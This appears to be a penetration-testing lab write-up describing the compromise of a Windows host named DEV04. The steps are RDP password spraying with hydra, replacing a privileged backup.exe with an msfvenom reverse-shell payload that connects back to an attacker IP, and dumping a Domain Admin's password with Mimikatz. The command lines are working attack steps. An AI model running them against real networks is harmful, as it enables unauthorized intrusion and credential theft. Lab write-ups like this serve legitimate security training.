





# DEV04

It is at this point that I discovered ligolo-ng. I stopped using chisel and switched so from here on out commands will be shown using the `ligolo-ng` proxy.

This machine is an interesting target because, according to BloodHound, the user `leon` who is a member of the `Domain Admins` group has a session on this machine. That means if I can get elevated privileges on this machine I can use Mimikatz to extract his hash from memory.

<figure><figcaption><p>Session found by BloodHound</p></figcaption></figure>

I gained initial access via password spraying.

## RDP Password Spraying

According to my scans there are 2 machines that have RDP access: `DEV04` and `CLIENT01`. I decide to do some light password spraying to see what access I may have. I construct a list of known passwords for the domain as well as the users:


```
administrator
yoshi
offsec
wario
mario
joe
peach
leon
toad
goomba

```



```
Flowers1 
Mushroom!

```


The logic behind using this method instead of spraying the known credential pairs is to check if any of the users are sharing a password. There are many reasons an account may share a password with another: perhaps it is a default for new employees; perhaps both accounts are controlled by the same person and used for different operations (one may be more privileged). None of these are secure ideas but these explanations are why this kind of thing might be encountered in the real world and why spraying this way is worthwhile. It must be done carefully though since lockouts are possible.

The spraying will be done with hydra as opposed to CME because I have seen cases of CME incorrectly reporting a failed login when the credentials were valid (false negatives are possible):


```bash
hydra -I -L users.txt -P known_passwords.txt -M rdp_hosts.txt rdp
```


<figure><figcaption><p>Credential Hit</p></figcaption></figure>

## Yoshi

My initial access is as yoshi. I just use Remmina RDP software and have a desktop as the user.

## Privilege Escalation

I grab a copy of WinPEAS and run it on the victim. As I am scrolling through the machine I find mention of a `C:\TEMP\backup.exe` that my `yoshi` use has access to.

Given that it is called "`backup.exe`" I suspect it is performing some sort of backup service. It is not running from somewhere inside the current user's directory tree which implies it is imaging the whole machine. That means it is very likely running as an elevated user in some way.

To test this out I decide to overwrite the `backup.exe` file with a reverse shell and see what happens. I generate an `exe` with `msfvenom`:


```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=139 LHOST=192.168.45.154 -a x64 --platform windows -f exe -o ./backup.exe
```


* Prior to generating the payload I used `nc` to test if port 139 on my machine was reachable or if it was fire-walled

I start my listener and then simply copy the new `backup.exe` over to `DEV04`, into the `C:\TEMP` directory, and wait. After a few minutes my listener gets a hit:

<figure><figcaption><p>Elevating privileges</p></figcaption></figure>

## Mimikatz

Now that I am running as `SYSTEM` I can run Mimikatz to extract hashes. I use `sekurlsa::logonpasswords` and there is `leon`:

<figure><figcaption><p>leon user information</p></figcaption></figure>

I check the plaintext password against the `FILES02` machine and it is correct:

<figure><figcaption><p>Validating credentials</p></figcaption></figure>

I chose to validate against just one machine in case it was wrong. I did not want to risk lockout. Had it failed I probably would have checked a few more places. Once it validated I sprayed it across the network to see what I had access to but I knew it was safe because the credential was correct.
